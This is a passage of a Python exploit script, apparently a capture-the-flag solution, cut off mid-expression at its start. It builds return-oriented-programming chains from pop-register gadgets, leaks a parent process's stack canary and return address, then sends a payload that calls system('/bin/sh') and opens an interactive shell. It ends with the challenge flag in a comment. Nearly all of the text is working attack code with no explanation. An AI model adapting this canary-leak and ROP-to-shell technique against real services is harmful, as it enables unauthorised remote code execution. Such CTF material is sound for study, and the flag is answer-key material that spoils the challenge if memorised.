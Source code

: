 ```python=
+p64(text+wwrr)

+p64(text+poprdi)
+p64(fd)
+p64(text+poprsi)
+p64(regadd+0x20)
+p64(text+poprdx)
+p64(0x5)
+p64(text+wwrr)

+p64(text+poprdi)
+p64(fd)
+p64(text+poprsi)
+p64(regadd+0x16)
+p64(text+poprdx)
+p64(0x5)
+p64(text+readd)

+p64(text+poprdi)
+p64(1)
+p64(text+poprsi)
+p64(shared)
+p64(text+poprdx)
+p64(0x100)
+p64(text+wwrr)

) # leak parent canary then get shell
print len(thirdpay)



fivepay="\x00\x01"

r.send(thirdpay)
r.send(fourpay)
time.sleep(1)
r.send(fivepay)

jj=r.recv()
canary=jj[0x48:0x48+8]
returnadd=jj[0x78:0x78+8]

print hex(u64(canary))
print hex(u64(returnadd))

finalpay=("/bin/sh\x00"+"\x00"*0x40
+canary+"a"*0x28
+p64(text+poprdi)
+p64(shared+2)
+p64(text+system)
) # The payload for getting shell

print len(finalpay)
r.send("\x90\x00"+finalpay)

r.interactive() #midnight{7h3re5_n0_I_iN_VM_bu7_iF_th3r3_w@s_1t_w0uld_b3_VIM}

```
